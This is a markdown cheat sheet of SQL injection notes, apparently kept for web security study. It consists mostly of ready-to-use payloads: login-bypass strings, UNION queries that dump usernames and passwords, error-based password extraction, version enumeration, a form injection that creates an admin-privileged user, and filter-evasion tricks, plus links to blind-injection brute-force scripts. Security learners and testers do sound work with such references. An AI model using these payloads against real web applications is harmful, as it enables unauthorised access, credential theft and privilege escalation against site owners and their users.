# SQLi notes

#### Testing booleans
Remember to try `AND` `OR` `HAVING`
we can test the ability bruteforce/presence of users by selecting a char, limiting to 1 and then comparing, so the below would become `a=a`  
`b' OR (select 'a' from users limit 1)='a`  
Now we can take a step further and confirm we have a user called "Administrator"  
`b' OR (select 'a' from users where username='administrator')='a`

#### Example PoCs: [BlindSQLI Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/bruteforce_blindsqli.py) [BlindNOsqli Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/brute_mongoDB_nosqli.py)

#### Bypass login
`admin' UNION SELECT 'pass' AS password FROM admins WHERE '1' = '1` in username field and then `pass` in password field  
`' or 1 =1 LIMIT 1,1#`

#### To jump to other tables:
`' UNION SELECT username, password FROM users--`

#### Enumerate database columns
`SELECT * FROM information_schema.tables`

#### Grab DB name
`%’ or 0=0 union select null, database() #`

#### Grab all column contents
`%’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users # Click Submit`

#### Grab a pw
`1 or 1 =1 union Select 1, password from users`  
`1'union select null, concat_ws (char (32,58,32), user, password) from users #`
`' or (select 1 from (Select count(*),concat((select password from admins),"+",floor(rand()*2))a from information_schema.tables group by a)b)#`

#### Enumerate vesrion:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`

#### Create your own user:
`INSERT INTO users (username, password, ID, privs) VALUES ('nuadmin','pass',2248,1)`

#### Hijack user creation form to create a user with admin privs:
`nuadmin', 'pass', 9999, 0)--`

#### Enumerating columns:
Consider an online user search, its statement would be something like:

`SELECT * FROM users WHERE ID=1`

To enumerate what we can union select, we can add a union select, and keep adding columns until we no longer get errors.

`ID=1 UNION SELECT 1,2--` OR `ID=1 ORDER BY 4` OR `GROUP BY 1,2,3,4,5,6,7,8,9,10`

If data from only first part of query is returned, we can invalidate it:

`ID=1 AND 1=2 UNION SELECT 1,2,3--`

If this returns our own values, we can start emumerating sys info:

`id=1 and 1=2 union select version(), user(),3`

#### Quick tips:
space sanitisation can be defeated with `/**/`

sometimes adding a comment at the end of query can complete the injection `--` (postgresql) `#` (mysql) `--+-`

Sometimes a webpage will take a parameter as a string, not an int - in which case we close the quotes so our entire injection isnt considered one string:

`SELECT * FROM users WHERE ID=1'` *Remember you may need to close the attack with another apostrophe*

`UNION` only selects distnict, use `UNION ALL` to select duplicates

To begin an attack, try to break the string with an invalidation

Pay attention to the backend use of single and double quotes in errors

#### BlindSQL:
Truth must be "infered" generally with a sleep function

Check for true vs false responses

### [Error Based SQLi](https://github.com/kymb0/web_study/blob/master/sqli/error_based_sqli.md)
